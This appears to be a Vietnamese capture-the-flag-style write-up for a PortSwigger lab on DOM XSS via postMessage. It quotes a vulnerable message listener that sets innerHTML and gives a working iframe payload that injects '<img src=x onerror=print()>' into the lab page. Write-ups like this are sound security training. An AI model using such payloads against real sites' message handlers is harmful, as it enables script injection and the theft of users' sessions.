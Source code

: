 ## DOM XSS using web messages

> Lab này sẽ hướng dẫn chúng ta postMessage tới target exploit bằng bằng cách gọi hàm print() để solve lab

![](/imgs/DOM-BASED-VULNERABILITIES/1.png?raw=true)

Vì thế ta sẽ sử dụng postMessage để send request đi tới địa chỉ của lab.

Nếu check source ta sẽ thấy function **addEventListener** dùng để lắng nghe message.

```javascript
<script>
window.addEventListener('message', function(e) {
document.getElementById('ads').innerHTML = e.data; })
</script>
```

Ở đây message sẽ là error để gọi function print, iframe sẽ trỏ tới địa chỉ lab.

```html
<iframe src="https://ac351fcd1f9b878680381a3b000f0042.web-security-academy.net/” onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')">
```
![](/imgs/DOM-BASED-VULNERABILITIES/2.png?raw=true)

### Tài liệu tham khảo
- DOM-based Vuln: [https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)
- PostMesage to Iframe: [https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)